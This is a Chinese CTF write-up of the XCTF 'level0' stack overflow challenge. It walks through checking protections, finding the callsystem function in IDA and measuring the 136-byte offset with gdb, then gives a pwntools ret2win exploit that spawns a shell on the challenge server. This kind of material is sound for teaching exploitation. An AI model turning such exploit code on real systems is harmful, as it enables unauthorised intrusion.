# 攻防世界: level0

## **[目标]**
栈溢出

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**
拿到这道题，首先要做的先检查有哪些保护机制是打开的：


没有开 canary，PIE 也是关闭的，但是栈不可执行。也就是说我们可以进行溢出，但是不能将 shellcode 写在栈上，因为现在栈上的代码是不能被执行的。

用ida查看：



这是 vulnerable_function 函数，可以在栈上写0x200个字节，或许我们可以进行溢出，覆盖掉返回地址，劫持程序执行流，执行我们想执行的方法。通常我们的目的是去执行 `system("/bin/sh")`。

* 看看有价值的strings，除了输出的helloworld 还发现了“/bin/sh”，查看调用发现了 callsystem函数，我们可以把返回地址改成callsystem的地址。





双击bin/sh就能查看bin/sh的存储位置



将光标放置在bin/sh这一行，按键盘上x就能找到哪里调用了bin/sh，这样我们就找到了callsystem。



那么我们到底需要输入多少个字节才能覆盖到返回地址呢？

* 我们用pattern.py来确定溢出点的位置,使用如下命令来生成一串150个字节的字符串。



* 然后我们使用gdb来进行调试



* 指针并没有指向类似于0x3745413675413465那样地址，而是停在了vulnerable_function()函数中。因为程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。



* 虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。



* 然后我们再用pattern来计算溢出点



可以看到溢出点为136字节

* 程序中有一个callsystem函数，我们可以把返回地址改成这个函数的地址。 最终执行system("/bin/sh")。构造payload：

```
payload = "A"*0x88 + elf.symbols["callsystem"]
```

完整exp：

```
from pwn import *

#p = process("./level0")
elf = ELF("./level0")
p = remote('10.10.49.194', 30154)

padding = "A"*0x88
addr = elf.symbols["callsystem"]

payload = ""
payload += padding
payload += p64(addr)

p.send(payload)
p.interactive()

```
## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)
